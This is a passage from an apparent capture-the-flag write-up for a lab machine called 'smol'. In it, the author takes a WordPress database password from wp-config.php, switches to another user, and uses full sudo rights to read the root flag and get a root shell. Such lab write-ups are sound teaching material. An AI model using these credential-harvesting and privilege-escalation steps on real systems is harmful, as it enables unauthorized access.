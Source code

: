 Upon inspecting the files, I found the `wp-config.php`, which contained Xavi's password:
```bash
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );
```

With this password, I was able to switch to the Xavi user:
```bash
xavi@smol:/home/gege$ id
  uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
```

## Privilege Escalation root
I started by running `sudo -l`, which revealed that Xavi had full sudo privileges:
```bash
xavi@smol:/home/gege$ sudo -l
  [sudo] password for xavi: 
  Matching Defaults entries for xavi on smol:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User xavi may run the following commands on smol:
      (ALL : ALL) ALL
```
Using this, I was able to retrieve the root flag:
```bash
xavi@smol:/home/gege$ sudo cat /root/root.txt
  bf89ea3ea01992353aef1f576214d4e4
xavi@smol:/home/gege$ sudo su 
root@smol:/home/gege$ id 
  uid=0(root) gid=0(root) groups=0(root)
```

solved! :)